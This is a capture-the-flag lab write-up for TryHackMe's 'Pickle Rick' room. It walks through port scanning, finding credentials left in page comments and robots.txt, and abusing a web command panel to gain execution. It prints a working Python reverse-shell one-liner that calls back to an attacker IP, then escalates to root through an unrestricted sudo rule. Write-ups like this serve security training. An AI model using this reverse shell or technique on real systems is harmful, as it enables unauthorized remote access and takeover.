# THM - Pickle Rick

#### Ip: 10.10.103.60
#### Name: Pickle Rick
#### Rating: Easy

----------------------------------------------------------------------


```text
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -p-  --min-rate 10000 10.10.103.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basuc scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -sC -sV -T4 10.10.103.60 -p 22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5235f7e6c7c64166d9efe23b67dc765c (RSA)
|   256 d00a4604437517acce7f615384723ce7 (ECDSA)
|_  256 0eb8ff00831db6bb1d5c800b7be0c9c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```

Heading to the sight we see a note from Rick to Morty:



Checking out the source of the page we find a username left as a comment:



Cool. Lets also manually check for a robots.txt page while we're here:



Ok, not exactly positive what this is. Trying to go to http://10.10.103.60/Wubbalubbadubdub we get a Not Found page. 

Lets do some directory fuzzing to see if we can find any other pages:



Looks like we've found a login page. Let's check that out:



Nice! We were able to login with the found username and used Wubbalubbadubdub for the password.

Interesting, looks like there is a panel to execute commands on the server with. Running `whoami` we see we have execution:



Trying to go to access any other materials on the site we get redirected to `/denied.php`



Funily enough, checking out the source code of the page we find another comment:

```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

This looks like Base64 encoded text.

Trying to decode it in the terminal I realize it's been encoded multiple times, so I keep adding additional decoding until I finally get to the clear text:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
```
Ha- here we are getting trolled by the box creators. 

Looks like we'll need to move on.

Going back to the command panel running `ls -la` shows me some interesting files:

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Trying to view any of these files using the `cat` command is blocked:



Ok, so there must be some command filtering happing here. Lets try and bypass this by using the panel to get a reverse shell.

### Exploitation

First I'll set up a Netcat listener on my attacking machine and then head over to revshells.com

From there i can grab a Python reverse shell oneliner and run it:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And a second later I get a call back to my listener:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.103.60] 48232
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-103-60
$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

From here I can answer the first question:

```text
What is the first ingredient that Rick needs?
```



Looks like there was a clue left behind:

```text
www-data@ip-10-10-103-60:/var/www/html$ cat clue.txt 
Look around the file system for the other ingredient.
```

Poking around the box a bit more we find the second ingredient in rick's `/home` directory:

```text
What is the second ingredient in Rick’s potion?
```



### Privilege Escalation

Lets try and get root access now. I'll try `sudo -l` to list out any commands I can run with root permissions:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-103-60.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-103-60.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow- looks like we can run whatever we want as sudo. Lets just switch our user to the root user:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo su -
root@ip-10-10-103-60:~# whoami
root
root@ip-10-10-103-60:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And from there we can answer the final question:

```text
What is the last and final ingredient?
```



Thanks for following along!

-Ryan

------------------------------------------------------------------
